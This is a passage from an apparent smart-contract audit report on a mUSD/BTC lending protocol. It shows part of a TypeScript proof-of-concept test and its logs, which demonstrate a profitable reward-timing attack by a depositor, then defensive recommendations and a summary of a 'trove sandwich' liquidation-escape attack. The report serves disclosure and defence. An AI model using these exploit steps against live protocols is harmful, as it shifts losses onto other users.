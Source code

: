 ```typescript

      const AfterDepositPrice = await priceFeed.fetchPrice();
      const getUSDValueAfter = (user: User) =>
        user.musd.after +
        (user.btc.after * AfterDepositPrice) / to1e18("1");

      const combinedAfter =
        getUSDValueAfter(bob) + getUSDValueAfter(carol);

      console.log("Combined Value Before:", formatUnits(combinedBefore));
      console.log("Combined Value After: ", formatUnits(combinedAfter));

      // Step 7: Check actual profit
      const lostMUSD = carol.musd.before - carol.musd.after;
      const gainedBTC = carol.btc.after - carol.btc.before;

      const price = await priceFeed.fetchPrice();
      const gainedUSD = (gainedBTC * price) / to1e18("1");

      console.log("Carol lost mUSD:", formatUnits(lostMUSD));
      console.log("Carol gained BTC:", formatUnits(gainedBTC));
      console.log("Value of BTC gained in USD:", formatUnits(gainedUSD));
      console.log("Total gained USD:", formatUnits(gainedUSD - lostMUSD));

      // Profitability check
      expect(gainedUSD).to.be.gt(lostMUSD);
      expect(combinedAfter).to.be.gt(combinedBefore);
    });

```

The test checks both Carol’s individual profit and combined system-level profit between Bob + Carol, confirming the attack does not come at a cost to the attacker cohort. Here are the logs below:
```bash
Combined Value Before: 99997754.76415000000025
Combined Value After:  99997792.079849999871247199
Carol lost mUSD: 488.095238095238096
Carol gained BTC: 0.010508218761904
Value of BTC gained in USD: 525.410938095199999522
Total gained USD: 37.315699999961903522

```

### Recommendation
- Consider adding a feature where you have time-weighted reward accounting: Require deposits to mature for N blocks before becoming eligible for rewards.
- Also you could have a commit-reveal pattern: Introduce a two-phase deposit system where deposits must be committed, and rewards are only calculated after a delay.

## Borrowers Can Sandwich Liquidation to Escape Bad Debt Redistribution
### Summary
Borrowers can exploit the trove system by temporarily closing their trove just before a liquidation event and reopening it immediately after, thereby avoiding bad debt redistribution. This "trove sandwich" attack creates unfair economic advantages and pushes additional losses onto other borrowers, if there is not enough funds in the `StabilityPool`.
